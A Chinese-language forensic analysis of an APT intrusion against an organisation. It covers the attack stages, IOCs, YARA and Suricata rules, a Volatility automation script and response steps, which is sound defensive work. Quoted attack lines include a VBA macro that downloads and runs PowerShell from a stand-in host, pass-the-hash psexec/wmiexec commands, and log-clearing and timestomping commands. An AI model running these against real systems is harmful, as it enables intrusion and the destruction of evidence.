#### 5.3 攻击路径逐步详解

**第一阶段：初始入侵（202X年7月15日）**

攻击者通过鱼叉式钓鱼邮件投递恶意Word文档。邮件主题为"关于召开XX工作会议的通知.docx"，发件人伪装为上级主管部门工作人员。社会工程学的精准度表明攻击者事先对该机构的组织架构和工作流程进行了详细侦察。

邮件的发送路径经过3跳（多层匿名化）：
- 起源：美国某VPN出口IP（购买商业VPN服务）
- 中转1：荷兰某VPS服务器（被入侵的合法服务器）
- 中转2：香港某云服务器（被入侵的合法服务器）
- 目标：目标机构邮件网关

**邮件网关日志还原（关键证据）：**

```text
202X-07-15 09:23:17 [邮件网关] 收到邮件
  发件人: xxx@work-department.gov.cn (伪造)
  收件人: [机构工作人员邮箱]
  主题: 关于召开XX工作会议的通知.docx
  附件: 关于召开XX工作会议的通知.docx (287KB)
  发送IP: 211.XX.XX.XX (香港云服务器)
  SPF检查: PASS (发件人服务器配置了合法SPF)
  DKIM检查: PASS (使用了被盗用的DKIM密钥)
  附件检测: 宏代码已检测，已标记为高风险
  用户操作: 用户点击"启用内容"按钮 (触发宏执行)
```

恶意文档包含嵌入式VBA宏，用户打开后触发宏代码执行：

```vb
' 恶意VBA宏代码（简化展示，实际代码经过混淆）
Sub AutoOpen()
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")
    ' 下载并执行恶意Payload
    shell.Run "powershell -ep bypass -w hidden -c " & _
        "IEX (New-Object Net.WebClient).DownloadString(" & _
        "'https://cdn-service.example.com/update.ps1')", 0, True
End Sub
```

**VBA宏代码的反分析特征：**
- 字符串拼接：将URL拆分为多个部分，避免静态检测
- Base64编码：关键参数使用Base64编码，运行时解码
- 环境检测：检查是否在虚拟机中运行（检测VMware Tools进程）
- 延迟执行：使用`Application.OnTime`延迟10秒执行，规避沙箱的短暂运行检测

**第二阶段：建立据点（202X年7月17日-22日）**

PowerShell脚本从远程服务器下载恶意DLL并注入到`svchost.exe`进程。后门程序配置了三重通信机制：



通信频率与内容：

| 时间段 | 通信类型 | 频率 | 内容 | 数据量 |
|-------|---------|------|------|-------|
| 09:00-18:00 | 心跳包 | 每30分钟 | 系统状态、进程列表 | 128字节/次 |
| 18:00-09:00 | 数据外传 | 持续传输 | 敏感文件、键盘记录 | 4-16MB/次 |
| 每日00:00 | 配置更新 | 一次 | 新C2地址、新任务指令 | 2-4KB |
| 随时 | 远程Shell | 按需 | 系统命令执行 | 变化 |

**心跳包结构分析（Wireshark解码）：**

```text
POST /api/v2/status HTTP/1.1
Host: cdn-service.update-checker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Content-Type: application/octet-stream
Content-Length: 128

[加密的心跳数据]
├── 系统信息（加密前）：主机名、OS版本、当前用户、进程数
├── 活动状态：键盘记录缓存量、截图缓存量、待传输文件数
└── 时间戳：UTC时间，用于与C2时间同步
```

**第三阶段：权限提升（202X年7月25日-27日）**

攻击者利用已知漏洞PrintNightmare（CVE-2021-34527）在域控制器上实现权限提升。该漏洞允许远程代码执行，且在补丁部署不完整的情况下尤其危险。

```bash
# 漏洞利用的网络流量特征（IDS规则）
alert tcp $HOME_NET any -> $EXTERNAL_NET any (
    msg:"APT-SUSPICIOUS PrintNightmare Exploit Traffic";
    content:"|00 00 00 00|"; depth:4;
    content:"|01 00 00 00|"; distance:4; within:4;
    sid:20210001; rev:1;
)
```

成功获取域管理员凭据后，攻击者通过Pass-the-Hash技术在内网中自由移动：

```bash
# 攻击者使用的PtH工具命令（从日志还原）
# 通过提取的域管理员NTLM哈希横向移动
# NTLM哈希格式：LM哈希:NT哈希
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:da76f... administrator@172.16.5.23

# 执行远程命令
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:da76f... administrator@172.16.5.31 "whoami"
```

**Pass-the-Hash攻击的原理与防御：**

Pass-the-Hash（PtH）是一种利用NTLM哈希而非明文密码进行认证的技术。Windows在NTLM认证协议中不验证用户是否知道密码，只验证提供的哈希是否匹配。攻击者通过Mimikatz从LSASS内存中提取哈希后，无需破解密码即可直接认证。

防御PtH的关键措施：
1. 启用Credential Guard（Windows 10/Server 2016+）
2. 禁用NTLM认证，强制使用Kerberos
3. 部署Windows Defender ATP的Credential Theft Detection
4. 限制域管理员账户的登录范围（只允许登录特定工作站）

**第四阶段：横向移动（202X年8月1日-20日）**

使用域管理员权限，攻击者扫描内网资产并进行横向移动：

```powershell
# 攻击者执行的侦察命令（从PowerShell日志还原）
# 枚举域内所有计算机
Get-ADComputer -Filter * -Property Name,OperatingSystem,IPV4Address

# 枚举域用户（寻找高价值目标）
Get-ADUser -Filter * -Property Name,Department,Title,LastLogonDate

# 获取域管理员组成员（定位目标）
Get-ADGroupMember -Identity "Domain Admins"

# 枚举网络共享（寻找数据存储位置）
Get-SmbShare | Select-Object Name,Path,Description

# 检查本地管理员组（寻找横向移动路径）
Get-LocalGroupMember -Group "Administrators"

# 扫描开放端口（寻找可达服务器）
1..254 | %{ Test-Connection -Count 1 -Quiet "172.16.5.$_" }
```

受影响服务器分布：

| 服务器类型 | 数量 | 具体IP段 | 被利用的凭据 | 攻击手法 |
|-----------|------|---------|------------|---------|
| 文件服务器 | 3台 | 172.16.5.20-22 | 域管理员凭据 | PsExec远程执行 |
| 数据库服务器 | 4台 | 172.16.5.30-33 | SA账户密码（弱密码） | SQL Server暴力破解 |
| 应用服务器 | 3台 | 172.16.5.40-42 | 域管理员凭据 | WMI远程执行 |
| 域控制器 | 2台 | 172.16.5.10-11 | KRBTGT账户 | DCSync攻击 |

**数据库服务器的额外发现：**

在4台数据库服务器上，攻击者发现了SA账户使用了弱密码（`SA@2020`），直接通过SQL Server暴力破解获取了数据库管理权限。这暴露了另一个安全问题：数据库SA账户的密码策略未与域策略同步。

**第五阶段：数据渗出（202X年9月1日-10月XX日）**

数据渗出采用分批次、低速率策略，刻意避免触发带宽告警：

| 指标 | 具体数值 | 说明 |
|------|---------|------|
| 渗出总数据量 | 约47.3GB | 压缩后约150GB原始数据 |
| 日均渗出量 | 约1.5GB | 低于带宽告警阈值（2GB/天） |
| 渗出时间窗口 | 22:00-06:00 | 避开工作时间和运维监控 |
| 单次传输块大小 | 4MB-16MB（随机） | 随机化避免流量特征被识别 |
| 压缩比 | 约3.2:1 | 使用7z AES-256加密压缩 |
| 传输协议 | HTTPS POST | 伪装成正常Web上传行为 |

渗出的数据类型：

- 内部行政文件（会议纪要、政策文件）：约23GB
- 人事档案信息（人员基本信息、考核记录）：约8GB
- 财务报表数据（预算、拨款、审计报告）：约11GB
- 技术文档资料（系统架构、安全配置）：约5.3GB

**数据渗出行为分析：**

攻击者的数据渗出策略体现了高度的专业性：
1. **时间选择**：22:00-06:00是运维人员最少的时间段
2. **速率控制**：1.5GB/天低于大多数单位的带宽告警阈值
3. **随机化**：传输块大小随机变化，避免被基于固定包大小的规则检测
4. **加密传输**：使用HTTPS + AES-256双重加密，DPI无法识别内容
5. **去重机制**：通过文件哈希去重，避免重复传输已获取的数据

### 六、IOC提取与威胁情报共享

#### 6.1 完整IOC清单

IOC（Indicators of Compromise）是安全团队进行威胁检测和响应的核心资产。一份完整的IOC清单应该涵盖攻击的每一个技术层面，以便在不同防御层部署检测规则。

**恶意文件IOC：**

| 文件名 | SHA256哈希 | 文件类型 | 大小 | 用途 | 检测建议 |
|-------|-----------|---------|------|------|---------|
| update.dll | e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855 | DLL | 142KB | 主后门模块 | YARA规则检测 |
| svchost.exe | 9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08 | EXE | 89KB | 加载器 | 路径检测（非System32目录） |
| shellcode.bin | 3c5a883451552a0b0c0c4b8e40d3b2d3c3c2a8f4e4e4e4e4e4e4e4e4e4e4e4e4 | Shellcode | 4KB | 初始Payload | 字节模式匹配 |
| keylog.dat | 7c222fb2927d828af22f592134e8932480637c0d1e4f4b0f1e4b0f1e4b0f1e4 | 加密数据 | 2.1MB | 键盘记录日志 | 文件路径+大小检测 |

**网络IOC：**

| 类型 | 值 | 说明 | 首次发现时间 | 检测方法 |
|------|---|------|------------|---------|
| C2域名 | cdn-service.update-checker.com | 主C2域名 | 202X-07-17 | DNS监控 |
| C2域名 | api.news-sync.org | 备用C2域名 | 202X-08-01 | DNS监控 |
| C2域名 | cdn-cdn.jsdelivr-cdn.com | 数据渗出域名 | 202X-09-01 | DNS监控 |
| C2 IP | 45.33.XX.50 | 美国盐湖城 | 202X-07-17 | IP黑名单 |
| C2 IP | 185.XX.XX.25 | 荷兰阿姆斯特丹 | 202X-08-15 | IP黑名单 |
| C2 IP | 103.XX.XX.100 | 香港 | 202X-09-01 | IP黑名单 |
| JA3指纹 | a0e9f5d64349fb13191bc781f81f42e1 | HTTPS客户端指纹 | 202X-07-17 | JA3/JA3S检测 |
| User-Agent | Mozilla/5.0 (Windows NT 10.0) | 伪造的浏览器UA | 202X-07-17 | 行为分析 |

**注册表IOC：**

```text
# 持久化注册表键值
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdate
  值: C:\Windows\Temp\svchost.exe
  类型: REG_SZ
  异常特征: 路径指向Temp目录而非System32

# 计划任务（通过schtasks导出）
任务名称: Microsoft\Windows\WindowsUpdate\Scheduled Update
触发器: 每小时执行一次
操作: powershell -ep bypass -w hidden -c "C:\Users\Public\update.dll"
状态: 已启用
上次运行时间: 202X-10-XX XX:XX
```

**文件系统IOC：**

```text
# 恶意文件路径
C:\Windows\Temp\svchost.exe          # 加载器（伪装系统进程名，路径异常）
C:\Users\Public\update.dll           # 主后门DLL（公共目录，权限宽松）
C:\Users\Public\shellcode.bin        # 初始Shellcode（公共目录）
C:\Users\Public\log.txt              # 执行日志
%APPDATA%\Microsoft\Windows\jusched.log  # 键盘记录（伪装Java日志）
%TEMP%\thumbs\                       # 截图存储目录（伪装缩略图）
```

**行为IOC（基于行为的检测指标）：**

| 行为特征 | 检测规则 | 误报率 | 适用场景 |
|---------|---------|-------|---------|
| svchost.exe在非System32目录启动 | 进程路径异常检测 | 低 | EDR实时监控 |
| PowerShell使用`-ep bypass -w hidden` | 命令行参数检测 | 中 | Sysmon日志分析 |
| BitBlt API每5分钟调用 | API调用频率监控 | 中 | 行为基线分析 |
| 文件扫描包含敏感关键词 | 文件访问模式检测 | 低 | 文件访问审计 |
| DNS查询出现8-12位随机字母域名 | DGA检测算法 | 中 | DNS监控 |

#### 6.2 YARA检测规则

基于提取的IOC，编写以下YARA规则用于威胁检测。YARA规则是恶意代码检测的行业标准工具，可以在文件系统、邮件网关、EDR等多个层面部署：

```yara
rule APT_Trojan_Generic_DLL {
    meta:
        description = "Detects generic APT trojan DLL based on behavioral strings"
        author = "Forensics Team"
        date = "202X-10"
        hash = "e3b0c44298fc1c149afbf4c8996fb924..."
        severity = "HIGH"
        mitre_attack = "T1055.001, T1573.002"
    
    strings:
        $mz = { 4D 5A }
        $s1 = "SetWindowsHookEx" ascii
        $s2 = "BitBlt" ascii
        $s3 = "CreateRemoteThread" ascii
        $s4 = "WriteProcessMemory" ascii
        $s5 = "VirtualAllocEx" ascii
        $mutex = "Global\\{A1B2C3D4-E5F6-7890-ABCD-EF1234567890}" ascii
        $c2_pattern = /[a-z]{8,12}\.(com|net|org):443\/[a-f0-9]{32}/ ascii
    
    condition:
        $mz at 0 and 
        3 of ($s*) and 
        ($mutex or $c2_pattern)
}

rule APT_Macro_Dropper {
    meta:
        description = "Detects APT macro dropper document"
        author = "Forensics Team"
        date = "202X-10"
        mitre_attack = "T1566.001, T1204.002"
    
    strings:
        $ole = { D0 CF 11 E0 A1 B1 1A E1 }
        $vba1 = "AutoOpen" ascii nocase
        $vba2 = "WScript.Shell" ascii nocase
        $vba3 = "DownloadString" ascii nocase
        $vba4 = "powershell" ascii nocase
        $vba5 = "-ep bypass" ascii nocase
    
    condition:
        $ole at 0 and 
        3 of ($vba*)
}
```

#### 6.3 Snort/Suricata检测规则

```yaml
# Suricata规则：检测APT C2通信特征
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"APT C2 Communication - Beacon Pattern Detected";
    flow:established,to_server;
    http.method; content:"POST";
    http.header; content:"User-Agent|3a| Mozilla/5.0 Windows NT 10.0";
    http.header_names; content!"Accept|0d 0a|";
    dsize:>200;
    threshold:type both, track by_src, count 10, seconds 3600;
    classtype:trojan-activity;
    sid:2024100001; rev:1;
)

# DNS规则：检测DGA域名特征
alert dns $HOME_NET any -> any 53 (
    msg:"APT DGA Domain Query Detected";
    dns.query;
    pcre:"/^[a-z]{12,20}\.(com|net|org)$/";
    threshold:type both, track by_src, count 5, seconds 60;
    classtype:bad-unknown;
    sid:2024100002; rev:1;
)
```

#### 6.4 威胁情报共享格式（STIX/TAXII）

将IOC和攻击行为信息通过标准格式共享给其他安全团队和行业伙伴，是APT应对的重要环节。

**STIX 2.1格式的威胁情报表示：**

```json
{
  "type": "indicator",
  "spec_version": "2.1",
  "id": "indicator--a]uuid",
  "created": "202X-10-XXT00:00:00.000Z",
  "modified": "202X-10-XXT00:00:00.000Z",
  "name": "APT Backdoor C2 Domain",
  "description": "APT攻击C2通信域名",
  "pattern": "[domain-name:value = 'cdn-service.update-checker.com']",
  "pattern_type": "stix",
  "valid_from": "202X-07-17T00:00:00.000Z",
  "indicator_types": ["malicious-activity"],
  "confidence": 85,
  "labels": ["apt", "c2", "trojan"]
}
```

**TAXII共享渠道：**

| 共享平台 | 格式 | 适用范围 | 延迟要求 |
|---------|------|---------|---------|
| 行业ISAC | STIX/TAXII | 同行业组织 | 24小时内 |
| 国家CERT | STIX+自定义 | 全国范围 | 12小时内 |
| 商业威胁情报 | 多格式 | 全球范围 | 4小时内 |
| 内部SOC | IOC列表 | 本组织 | 实时 |

### 七、取证工具与技术栈

#### 7.1 完整取证工具链

本次取证调查使用的工具完整清单：

| 类别 | 工具名称 | 用途 | 版本 | 替代工具 |
|------|---------|------|------|---------|
| 内存取证 | Volatility 3 | 内存镜像分析 | v3.0.0 | Rekall, WinDbg |
| 内存取证 | Rekall | 辅助内存分析 | v1.7.0 | Volatility 2 |
| 磁盘取证 | Autopsy | 磁盘镜像分析 | v4.20 | X-Ways, EnCase |
| 磁盘取证 | FTK Imager | 磁盘镜像采集 | v4.7.1 | dc3dd, Guymager |
| 网络取证 | Wireshark | PCAP分析 | v4.0.0 | TShark, NetworkMiner |
| 网络取证 | NetworkMiner | 网络流量取证 | v2.8 | Zeek (Bro) |
| 恶意代码 | IDA Pro | 反汇编分析 | v8.0 | Ghidra, Binary Ninja |
| 恶意代码 | Ghidra | 反编译辅助 | v10.2 | IDA Free |
| 恶意代码 | x64dbg | 动态调试 | 最新版 | OllyDbg, WinDbg |
| 恶意代码 | ProcMon | 进程监控 | v3.90 | API Monitor |
| 日志分析 | Splunk | 大规模日志关联 | v9.0 | ELK, QRadar |
| 日志分析 | ELK Stack | 日志检索分析 | v8.5 | Splunk OSS |
| 取证套装 | Kali Linux | 取证环境 | 2023.1 | CAINE, SIFT |
| 证据管理 | CASE | 证据格式标准化 | v1.3 | CyberChef |

#### 7.2 关键分析脚本

**批量内存分析自动化脚本：**

```python
#!/usr/bin/env python3
"""APT取证自动化分析脚本 - 支持批量内存镜像分析"""
import subprocess
import json
import sys
import hashlib
from datetime import datetime
from pathlib import Path

class APTForensics:
    """APT攻击取证分析自动化工具"""
    
    def __init__(self, memory_dump_path):
        self.dump_path = memory_dump_path
        self.results = {}
        self.volatility_cmd = "vol.py"
        self.suspicious_pids = []
    
    def verify_dump_integrity(self):
        """验证内存转储完整性"""
        sha256 = hashlib.sha256()
        with open(self.dump_path, "rb") as f:
            for chunk in iter(lambda: f.read(8192), b""):
                sha256.update(chunk)
        return sha256.hexdigest()
    
    def run_plugin(self, plugin_name):
        """运行Volatility插件并捕获输出"""
        cmd = f"{self.volatility_cmd} -f {self.dump_path} {plugin_name}"
        try:
            result = subprocess.run(
                cmd.split(), 
                capture_output=True, 
                text=True,
                timeout=600
            )
            return result.stdout
        except subprocess.TimeoutExpired:
            return f"[ERROR] Plugin {plugin_name} timed out"
        except Exception as e:
            return f"[ERROR] Plugin {plugin_name} failed: {str(e)}"
    
    def analyze_malfind(self):
        """分析代码注入（核心检测方法）"""
        output = self.run_plugin("windows.malfind")
        self.results['malfind'] = output
        
        injected_pids = []
        for line in output.split('\n'):
            if 'PID' in line and 'Process' in line:
                continue
            if line.strip() and not line.startswith('Volatility'):
                parts = line.split()
                if len(parts) >= 2 and parts[0].isdigit():
                    injected_pids.append({
                        'pid': parts[0],
                        'process': parts[1],
                        'protection': parts[4] if len(parts) > 4 else 'Unknown'
                    })
        self.suspicious_pids = [p['pid'] for p in injected_pids]
        return injected_pids
    
    def analyze_pstree(self):
        """分析进程树，寻找异常父子关系"""
        output = self.run_plugin("windows.pstree")
        self.results['pstree'] = output
        
        # 异常进程父子关系规则
        suspicious_patterns = {
            'cmd.exe': ['powershell.exe', 'wscript.exe', 'cscript.exe', 'mshta.exe'],
            'explorer.exe': ['cmd.exe', 'powershell.exe', 'mshta.exe'],
            'svchost.exe': ['cmd.exe', 'powershell.exe', 'rundll32.exe', 'regsvr32.exe'],
            'services.exe': ['cmd.exe', 'powershell.exe'],
        }
        
        suspicious = []
        for line in output.split('\n'):
            for parent, children in suspicious_patterns.items():
                for child in children:
                    if parent.lower() in line.lower() and child.lower() in line.lower():
                        suspicious.append({
                            'pattern': f"{parent} -> {child}",
                            'line': line.strip()
                        })
        return suspicious
    
    def analyze_netscan(self):
        """分析网络连接"""
        output = self.run_plugin("windows.netscan")
        self.results['netscan'] = output
        
        external_connections = []
        for line in output.split('\n'):
            if 'ESTABLISHED' in line:
                parts = line.split()
                if len(parts) >= 4:
                    remote = parts[4] if len(parts) > 4 else 'Unknown'
                    # 过滤掉内网连接
                    if not remote.startswith('172.16.') and not remote.startswith('127.'):
                        external_connections.append({
                            'local': parts[3],
                            'remote': remote,
                            'state': parts[5] if len(parts) > 5 else 'ESTABLISHED'
                        })
        return external_connections
    
    def generate_report(self):
        """生成取证分析报告"""
        report = {
            'case_id': f"APT-{datetime.now().strftime('%Y%m%d')}",
            'examiner': 'Forensics Team',
            'date': datetime.now().isoformat(),
            'memory_dump': self.dump_path,
            'dump_hash': self.verify_dump_integrity(),
            'analysis_results': self.results,
            'summary': {
                'injected_processes': len(self.suspicious_pids),
                'suspicious_pids': self.suspicious_pids,
                'external_connections': len(self.results.get('netscan', '')),
                'risk_level': 'HIGH' if self.suspicious_pids else 'MEDIUM'
            }
        }
        return json.dumps(report, indent=2, ensure_ascii=False)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python apt_forensics.py <memory_dump_path>")
        print("Example: python apt_forensics.py server_memory.dmp")
        sys.exit(1)
    
    forensics = APTForensics(sys.argv[1])
    print(f"[*] Starting APT Forensics Analysis: {sys.argv[1]}")
    
    print("[*] Verifying dump integrity...")
    dump_hash = forensics.verify_dump_integrity()
    print(f"[+] SHA-256: {dump_hash}")
    
    print("[*] Analyzing code injection (malfind)...")
    malfind = forensics.analyze_malfind()
    print(f"[+] Found {len(malfind)} potential injected processes")
    
    print("[*] Analyzing process tree (pstree)...")
    pstree = forensics.analyze_pstree()
    print(f"[+] Found {len(pstree)} suspicious process relationships")
    
    print("[*] Analyzing network connections (netscan)...")
    netscan = forensics.analyze_netscan()
    print(f"[+] Found {len(netscan)} external connections")
    
    print("[*] Generating report...")
    report = forensics.generate_report()
    report_path = "apt_forensics_report.json"
    with open(report_path, "w") as f:
        f.write(report)
    print(f"[+] Report saved to {report_path}")
```

### 八、取证结论与应急响应

#### 8.1 事件概况

| 指标 | 具体数值 |
|------|---------|
| 攻击持续时间 | 约92天（202X年7月15日-10月XX日） |
| 受影响服务器 | 12台（含2台域控制器） |
| 受影响终端 | 约15台管理员工作站 |
| 泄露数据量 | 约47.3GB（原始约150GB） |
| 攻击组织归因 | 境外APT组织（归因置信度：中高） |
| 初始入侵方式 | 鱼叉式钓鱼邮件（VBA宏） |
| 横向移动方式 | Pass-the-Hash + 弱密码爆破 |
| 数据渗出方式 | HTTPS加密通道 |

#### 8.2 归因分析

归因分析是APT取证中最具争议性的环节。由于攻击者会故意伪造特征以误导归因，因此需要从多个维度综合评估。

| 归因维度 | 具体证据 | 置信度 | 评估说明 |
|---------|--------|-------|---------|
| 技术特征 | 后门代码结构与已知APT组织工具高度相似（代码复用率>60%） | 高 | 代码相似性是最直接的归因依据 |
| TTP匹配 | MITRE ATT&CK技术栈与该组织历史攻击一致（12/14匹配） | 高 | TTP比工具更难伪造 |
| 基础设施 | C2服务器部分IP曾被其他安全厂商关联到该组织 | 中 | IP可能被租用或共享 |
| 目标选择 | 攻击目标行业与该组织历史目标一致 | 中 | 不同组织可能攻击相似目标 |
| 操作时间 | C2通信高峰期与该组织所在时区工作时间吻合 | 低 | 攻击者可能在不同时区工作 |

**归因置信度评分方法：**

采用DNI（Director of National Intelligence）的归因框架，将归因分为5个置信度等级：
- **几乎确定**（Near Certain）：>90%
- **很可能**（Very Likely）：75-90%
- **可能**（Likely）：50-75%
- **不可能**（Unlikely）：25-50%
- **几乎不可能**（Very Unlikely）：<25%

综合置信度：**可能偏高**（综合得分0.72/1.0）

**归因的局限性说明：**
- 高水平APT组织会故意使用其他组织的工具和技术来误导归因
- 攻击者可能租用第三国的基础设施，使归因指向错误方向
- 归因结果不应作为采取行动的唯一依据，应结合防御需求综合决策

#### 8.3 应急处置措施

**即时处置（0-24小时内）：**

```text
紧急措施清单：
├── 网络隔离
│   ├── 切断受影响服务器的外网访问
│   ├── 在防火墙封锁所有已知C2 IP和域名
│   ├── 禁用受影响服务器的网络共享
│   └── 通知ISP封锁恶意IP段
├── 凭据重置
│   ├── 重置所有域管理员账户密码
│   ├── 重置KRBTGT账户密码（两次，间隔12小时）
│   ├── 重置所有服务账户密码
│   ├── 撤销所有受影响用户的Kerberos票据
│   └── 强制所有用户下次登录时更改密码
└── 系统清理
    ├── 删除所有已识别的恶意文件
    ├── 清理恶意注册表键值和计划任务
    ├── 更新所有受影响主机的防病毒特征库
    └── 对12台服务器进行完整病毒扫描
```

**KRBTGT账户密码重置的特殊说明：**

KRBTGT是Active Directory中Kerberos密钥分发中心（KDC）使用的服务账户。重置其密码必须执行两次，间隔至少12小时。这是因为Kerberos票据有两个时期的密码缓存，只重置一次无法使所有旧票据失效。如果不执行两次重置，攻击者使用旧密码伪造的黄金票据（Golden Ticket）仍然有效。

**短期加固（1-7天内）：**

| 措施类别 | 具体行动 | 负责人 | 优先级 |
|---------|--------|-------|-------|
| 补丁管理 | 部署PrintNightmare等关键漏洞补丁 | 系统管理员 | 紧急 |
| 邮件安全 | 启用附件沙箱检测，禁用Office宏自动执行 | 安全工程师 | 高 |
| 网络分段 | 实施办公网与业务网的严格ACL隔离 | 网络工程师 | 高 |
| 日志增强 | 开启PowerShell脚本块日志记录（Event ID 4104） | 安全工程师 | 高 |
| EDR部署 | 在所有服务器和关键终端部署EDR | 安全工程师 | 高 |
| MFA启用 | 对所有特权账户启用多因素认证 | 系统管理员 | 高 |
| 域管收缩 | 将域管理员账户从8个缩减到2个 | 系统管理员 | 中 |
| 弱密码清理 | 检查所有服务账户密码强度 | 系统管理员 | 中 |

**长期改进（1-3个月内）：**



### 九、常见取证误区与纠正

#### 9.1 内存取证常见错误

| 误区 | 正确做法 | 原因 |
|------|--------|------|
| 只用malfind一个插件 | 结合pstree、netscan、handles等多插件交叉验证 | 单一插件可能漏检，恶意代码可能使用更隐蔽的注入技术（如APC注入、线程劫持） |
| 忽略内核态恶意代码 | 检查SSDT钩子、驱动模块、DPC定时器、IRP钩子 | 高级APT可能使用内核Rootkit，仅检查用户态会遗漏 |
| 不验证内存转储完整性 | 采集后立即计算SHA-256并记录 | 内存转储损坏会导致分析结果不可信，无法作为法律证据 |
| 在受害机器上直接分析 | 将内存转储复制到隔离取证环境分析 | 在受害机器上分析可能触发恶意代码的反分析机制（如检测到分析工具后自毁） |
| 忽略内存中加密密钥 | 使用Volatility的`windows.memmap`提取密钥 | 内存中可能包含C2通信密钥、加密文件密钥，可用于解密数据 |
| 采集工具放在受害系统上 | 使用外接USB设备上的工具 | 受害系统可能已安装反取证工具，会干扰采集过程 |

#### 9.2 恶意代码分析常见错误

| 误区 | 正确做法 | 原因 |
|------|--------|------|
| 直接运行恶意样本 | 在沙箱或虚拟机中隔离运行，且VM要断网 | 恶意代码可能检测到虚拟机并改变行为，或感染宿主机 |
| 忽略时间戳伪造 | 校验文件的编译时间、导入表时间、链接器版本 | 攻击者可能伪造文件时间戳（timestomping），需要交叉验证 |
| 只做静态分析 | 结合动态行为监控进行分析 | 恶意代码可能有反静态分析机制（混淆、加壳、反编译），只看代码会遗漏真实行为 |
| 信任单一杀毒引擎结果 | 使用VirusTotal多引擎扫描 | 单一引擎可能无法识别定制化恶意代码 |
| 忽略加壳分析 | 先识别壳类型，再选择脱壳工具 | 许多APT恶意代码使用自定义加壳，不脱壳无法进行有效的逆向分析 |
| 不分析导入表 | 检查所有API导入，特别是非常规API | API导入表是判断恶意代码功能的重要线索 |

#### 9.3 日志分析常见错误

| 误区 | 正确做法 | 原因 |
|------|--------|------|
| 只看安全日志 | 关联系统、应用、网络、安全四类日志 | 攻击活动可能只在某些日志中留下痕迹（如PowerShell执行只记录在脚本块日志中） |
| 忽略日志伪造 | 对比多个独立日志源的时间线 | 攻击者可能篡改某些日志，需要交叉验证（如防火墙日志与服务器日志时间对比） |
| 不考虑时区问题 | 统一转换为UTC时间进行分析 | 不同系统可能使用不同时区，直接对比会导致时间线错乱 |
| 忽略日志覆盖 | 优先采集滚动覆盖的日志 | 早期日志可能已被新日志覆盖，需要及时采集（特别是安全日志默认只有20MB） |
| 不分析日志缺失 | 关注日志间隙和异常中断 | 攻击者可能删除特定时间段的日志，日志缺失本身就是重要证据 |

#### 9.4 证据处理常见错误

| 误区 | 正确做法 | 原因 |
|------|--------|------|
| 未使用写保护器 | 所有取证操作必须使用硬件写保护器 | 即使是"只读"操作也可能在操作系统层面触发写入 |
| 只计算一次哈希 | 采集时和分析前各计算一次哈希 | 确保证据在存储和转移过程中未被修改 |
| 取证环境未隔离 | 取证工作站必须与受害网络物理隔离 | 防止恶意代码通过网络横向移动到取证环境 |
| 忽略元数据 | 记录所有证据的元数据（创建时间、大小、路径） | 元数据是证据完整性验证的重要依据 |

### 十、高级进阶内容

#### 10.1 对抗取证技术

高级APT组织可能采用以下反取证技术，取证人员需要了解并能应对：

**反取证技术一：时间戳伪造（Timestomping）**

攻击者使用`touch`命令或Windows API修改文件时间戳，使恶意文件看起来像是很久以前创建的合法文件：

```bash
# 攻击者可能使用的命令（Linux）
touch -t 202001010000 /path/to/malicious/file

# Windows下使用PowerShell
(Get-Item file.exe).LastWriteTime = "2020/01/01 00:00:00"
(Get-Item file.exe).CreationTime = "2020/01/01 00:00:00"

# 使用Metasploit的timestomp模块
timestomp malicious.exe -m "01/01/2020 00:00:00"
```

**应对方法：**
- 使用NTFS日志（`$UsnJrnl`、`$LogFile`）分析文件真实修改时间，这些系统级日志难以被普通用户篡改
- 检查文件的`$STANDARD_INFORMATION`和`$FILE_NAME`属性的时间差异（时间戳伪造通常只修改前者）
- 使用`MFTECmd`工具解析$MFT，对比两个时间属性

**反取证技术二：日志清理**

攻击者删除Windows事件日志以消除活动痕迹：

```powershell
# 攻击者可能执行的命令
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
wevtutil cl "Windows PowerShell"
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

**应对方法：**
- 检查事件日志服务是否曾被停止（Event ID 1100表示日志服务被清除）
- 通过远程日志服务器备份的日志进行对比
- 检查`$MFT`中的文件记录，确认日志文件的最后修改时间
- 使用`EvtxECmd`工具分析EVTX文件的头部元数据

**反取证技术三：进程隐藏（Rootkit）**

使用Rootkit技术隐藏恶意进程，使其在任务管理器和常规工具中不可见：

```bash
# 通过修改系统调用表（SSDT）隐藏进程
# 正常工具（tasklist、Process Explorer）无法看到隐藏进程
# 攻击者使用的典型Rootkit技术：
# 1. SSDT Hook - 修改系统调用表
# 2. DKOM (Direct Kernel Object Manipulation) - 直接修改内核对象
# 3. IAT Hook - 修改导入地址表
# 4. IRP Hook - 修改设备驱动的IRP处理函数
```

**应对方法：**
- 使用内存取证工具（Volatility、Rekall）直接扫描内存中的EPROCESS结构，而非依赖操作系统API获取进程列表
- 比较不同层级的进程枚举结果（API层 vs 内存层 vs 驱动层）
- 使用`GMER`、`RootkitRevealer`等专用工具检测内核钩子
- 检查`windows.modules`插件输出中不在已知列表中的内核模块

**反取证技术四：加密与混淆**

高级APT组织使用多层加密和混淆技术隐藏恶意代码：

| 混淆技术 | 特征 | 检测方法 |
|---------|------|---------|
| UPX加壳 | 特定节名（UPX0、UPX1） | 查壳工具（Exeinfo PE、Detect It Easy） |
| 自定义加密 | XOR、AES、RC4加密代码段 | 内存中解密后提取 |
| 代码虚拟化 | 使用VM保护关键代码 | 动态调试 + 行为分析 |
| 反调试检测 | 检测调试器存在 | 绕过反调试机制 |
| 垃圾代码注入 | 插入无用代码增加分析难度 | 控制流分析 |

#### 10.2 APT攻击的自动化检测

基于机器学习的APT检测是当前安全研究的前沿方向。传统规则检测只能识别已知攻击模式，而机器学习可以发现未知的异常行为：



**关键特征维度：**

| 特征类别 | 具体特征 | 异常阈值 | 数据来源 |
|---------|--------|---------|---------|
| 时间特征 | 非工作时间登录频率 | 超过基线3倍 | 域控日志 |
| 网络特征 | DNS查询多样性（新域名数量） | 单日新域名>100 | DNS日志 |
| 进程特征 | 进程父子关系异常度 | 偏离基线>2σ | Sysmon日志 |
